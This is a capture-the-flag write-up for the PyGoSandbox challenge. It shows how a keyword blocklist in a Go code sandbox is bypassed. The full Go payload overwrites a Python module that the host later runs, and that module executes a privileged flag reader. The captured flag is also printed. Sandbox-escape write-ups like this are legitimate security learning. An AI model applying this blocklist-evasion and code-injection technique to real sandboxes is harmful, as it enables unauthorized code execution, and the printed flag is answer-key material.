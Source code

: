 # CTF Writeup: PyGoSandbox

## Challenge Information

- **Challenge Name:** PyGoSandbox
- **CTF Event:** CATF 23
- **Category:** MISC

## Description

I'm back stronger than ever, after failing to build a secure calculator, i made a life changing career shift!, now i'm building top notch Golang sandboxes that no one with IQ lower than 0.567 can bypass. Can you?!

## Solution

### Initial Analysis

1- We take a look at the Dockerfile to know what we have to do, we will find that the real flag is in the `/root` dir and there is a fake flag as env variable and there is a `/FlagReader` which we have to execute to get the flag
2- When we inspect the `encrypt.py` file we will find that it encrypts the fake flag **intersting**
3- Lets inspect the `challenge.py` it blocks some words`BLOCKLIST = ["Scan","os","net","exec","syscall","cli","bufio","Flag","chatgpt"]` and sice it blocks the os word we can't do what we want directly so we have to find another indirect way

### Finding Clues

1- We can use the `io` package which can read and write files... but even if we can read we cant read the flag since we don't have the permission and even if we can write a file we can't execute it 

2- The challenge imports the `EncryptFlag` function from the encrypt.py file and executes it after our go code gets executed **The Ultra Major Clue**

### Exploitation

We can overwrite the `encrypt.py` with our python code and let the challenge it self exectute it so to craft our payload first thing we need is to write a python code to execute the `/FlagReader` inside a function called `EncryptFlag()` but we have a problem here which is we cant use the word `Flag` in our payload and to mitigate this problem we can use `flag` and then capitalize the `F` for the file name we can use the `replace()` function and for the function name we can use `globals()["Encryptflag".replace("f", "F")] = Encryptflag` so now we are done form the python code. The second thing we need is to write a go code to overwrite the `encrypt.py` and as we said eralier we can use `io/ioutil` to do that, so now we are ready to send our payload and get our flag

### payload

```
package main

import (
	"fmt"
	"io/ioutil"
)

func main() {
	// The file where to write data
	filePath := "encrypt.py"

	// The data you want to write to the file
	data := `
import subprocess
def Encryptflag():
	flag = "/flagReader"
	flag = flag.replace("f", "F")
	result = subprocess.check_output([flag], universal_newlines=True)
	print(result)
globals()["Encryptflag".replace("f", "F")] = Encryptflag
`

	// Write data to the file
	err := ioutil.WriteFile(filePath, []byte(data), 0644)
	if err != nil {
		fmt.Println("Error writing to file:", err)
		return
	}

	fmt.Println("Data written to the file successfully.")
}
EOF
```

**FLAG**
`CATF{GoL4ng_S4nDb0x_xB0x_1337_e477313264bb190024d654ef0a08fb1732af4f4b498a2e8ad__2@23_}`
